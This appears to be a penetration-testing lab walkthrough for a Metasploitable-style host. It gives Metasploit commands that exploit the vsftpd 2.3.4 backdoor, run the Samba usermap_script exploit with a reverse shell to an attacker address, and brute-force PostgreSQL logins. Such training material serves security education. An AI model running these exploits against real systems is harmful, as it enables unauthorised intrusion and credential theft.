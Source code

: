 Port 21 vsftpd

<details>
<summary>Solution</summary>

```markdown
search vsftpd
```



The output of the search is: 



```markdown
Matching Modules

================

Name                                  Disclosure Date  Rank    Description

----                                  ---------------  ----    -----------

exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Now to the exploitation:

```markdown
use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 10.0.0.3

set payload cmd/unix/interact

exploit

```

To verify if the exploit worked use 
```markdown
whoami
```
</details>

Port 445 samba

<details>
<summary>Solution</summary>

```markdown
use auxiliary/scanner/smb/smb_version

set RHOSTS 10.0.0.3

run
```

With the information we now have we can use:

```markdown
use exploit/multi/samba/usermap_script

set RHOSTS 10.0.0.3

set payload cmd/unix/reverse

set LHOST 10.0.0.2

set RPORT 445

exploit
```

To verify our access: 

```markdown
whoami
```

</details>

Port 5432 PostgreSQL


<details>
<summary>Solution</summary>

First we brute force the password:

```markdown
use auxiliary/scanner/postgres/postgres_login

set RHOSTS 10.0.0.3

set STOP_ON_SUCCESS true

run
```

The result of the brute force attack:

```markdown
Success: postgres:postgres (Database 'template1' succeeded.)
```
</details>